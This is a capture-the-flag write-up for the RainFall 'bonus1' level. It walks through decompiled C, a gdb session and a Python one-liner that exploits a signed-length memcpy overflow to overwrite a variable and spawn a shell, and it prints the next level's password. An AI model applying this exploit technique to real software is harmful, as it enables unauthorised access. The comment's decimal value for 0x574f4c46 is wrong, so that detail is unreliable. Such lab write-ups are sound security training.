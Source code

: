 When opening the binary in ghidra, and renaming the variables, we see:

```c
int main(int argc, char **argv)
{
  int input_integer;
  char buffer[40];
  
  input_integer = atoi(argv[1]);
  
  if (input_integer < 10) {
    memcpy(buffer, argv[2], input_integer * 4);
    
    if (input_integer == 0x574f4c46) { // (1474186742)
      // Exécuter un shell
      execl("/bin/sh", "sh", 0);
    }
    
    return 0;
  }
  else {
    return 1;
  }
}
```

We see that the program is vulnerable to a buffer overflow attack (to change...), because the buffer is not protected against overflows. We can therefore overflow the buffer to change the value of the variable `input_integer` and thus execute the shell.

if input_integer > 10, the program returns 1, so we have to enter a value less than 10, but it is not enough to overflow the buffer.

`0x08048473 <+79>:	call   0x8048320 <memcpy@plt>`
`void *memcpy(void *dest, const void *src, size_t n);`

The length of the copy is in size_t, so we can enter a negative value to overflow the buffer.
If we send `U_INT_MAX / 4 + 1`(1073741824), we will have 0

```bash
(gdb) b *main+79
Breakpoint 1 at 0x8048473
(gdb) run -1073741824 test
Starting program: /home/user/bonus1/bonus1 -1073741824 test

Breakpoint 1, 0x08048473 in main ()
(gdb) x/x $esp+8 # esp+8 = third argument of memcpy
0xbffff5f8:	0x00000000
```

Now, if we substract 25, we will be able to test the offset of the buffer.

```bash
(gdb) b *main+84
Breakpoint 1 at 0x8048478
(gdb) run -1073741799 AAAABBBBCCCCEEEEDDDDFFFFGGGGHHHHIIIIJJJJiiiiLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT
Starting program: /home/user/bonus1/bonus1 -1073741799 AAAABBBBCCCCEEEEDDDDFFFFGGGGHHHHIIIIJJJJiiiiLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT

Breakpoint 1, 0x08048478 in main ()
(gdb) x/x $esp+0x3c
0xbffff5dc:	0x69696969
```

The offset is 40, so we can change the value of `input_integer` to 1474186742 (0x574f4c46) to execute the shell.

```bash
bonus1@RainFall:~$ ./bonus1 -1073741813 `python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'"`
$ cd ../bonus2
$ cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```